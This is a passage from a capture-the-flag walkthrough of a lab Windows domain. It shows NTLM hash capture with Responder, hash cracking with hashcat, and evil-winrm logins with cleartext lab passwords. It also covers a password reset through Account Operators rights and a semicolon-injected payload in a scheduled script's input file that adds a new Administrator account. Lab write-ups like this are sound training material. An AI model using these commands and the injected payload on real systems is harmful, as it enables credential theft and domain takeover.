Note: We can use the user's id “buse@fire.windcorp.thm” to start a conversation.
Spark
Click on Action -→ Start a Chat
Enter either of the above in the following field and click Ok.

Next, Start the Responder on Kali Machine on the Tunnel IP.

Next we send the payload by pasting it and hitting Enter.

Once its sent, we check the responder.

Indeed, we got the NTLM Hash for the user buse.
We take the NTLM Hash to a file buse_ntlm.txt and crack it using hashcat.
hashcat -m 5600 buse_ntlm.txt /usr/share/wordlists/rockyou.txt

I had already cracked it before. So it asked to add --show option instead of the wordlist.
We will check the credential as usual using crackmapexec

Thus, we have correct domain credential again.
Credentials Found:
Username: buse
Password: uzunLM+3131
Shell Access
Luckily the user buse is in the “Remote Management User” group. This was confirmed, as we are able to login using Evil-WinRM
evil-winrm -i 10.10.111.3 -u buse -p 'uzunLM+3131'
or
evil-winrm -i fire.windcorp.thm -u buse -p 'uzunLM+3131'

Important Groups And its Features
Remote Management Users: Used to Access the machine remotely in shell using tools like. Evil-WinRM
Remote Desktop Users: Used to Access the RDP Session of the system using tools like. xfreerdp [But for this machine RDP port is closedd]
Account Operators: The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.
Note: Members of the Account Operators group cannot manage the Administrator user account, the user accounts of administrators, or the Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators groups. Members of this group cannot modify user rights
Summary: With the group of user buse, we can add/modify/delete users. But, we cannot change any administrator users/groups.
We get the flag from the Desktop of the user.
Privilege Escalation

I looked in the C Drive and found a directory name scripts. It has a script and a log.txt file which has current timestamp. (Indicating its running every minute)

Checking from the permissions, it seems its running as Administrator
Lets analyze the Powershell Script.

Focus on the selected snippet of the powershell script. The script gets the contents of C:\Users\brittanycr\hosts.txt using get-content & then executes everything inside the file using Invoke-Expression $p
We can use this to gain Administrator access, but need to be able to access the C:\Users\brittanycr\hosts.txt file. I checked its permissions.

We got access denied, which indicates that we cannot even read/view it.
Note: As we are member of group “Account Operators" we can modify user accounts.
Thus, i run the following command to change the password of the use brittanycr
net user brittanycr NewPassword1234 /domain

Note: Later i Found that the user brittanycr is not a member of “Remote Management Users” So we cannot access to shell remotely by default.
But, if we add the user to the “Remote Management Users” group, we can access the user shell in Evil-WinRM
However, we do not need Remote Shell for the user. We just need to add our commands in the C:\Users\brittanycr\hosts.txt file which can be done in Samba.
Firstly, I will test the credentials as usual in crackmapexec

Indeed the Password is changed.
Lets use smbclient to open the /Users share and replace the hosts.txt with the following.

Next, we go into brittanycr directory to make the necessary changes to the file.

We check the file and replace its contents as follows:
;net user cybex Password1234! /add;net localgroup Administrators cybex /add
Note: We are giving the commands after “;” to indicate a new command
Contents of Modified hosts.txt

Next, we upload the file using samba. Then we wait for 1 min for the script to run.

Once the script runs, a new user named “cybex” should be created who will be a member of Administrator group.
We will check the user with crackmapexec and finally login with Evil-WinRM

Indeed a user named “cybex” is created and the (Pwn3d!) message indicates that it is an administrator account.

Thus, we have Administator access to the machine.
We get the root flag from Administrator's Desktop and end the room.
Thanks!!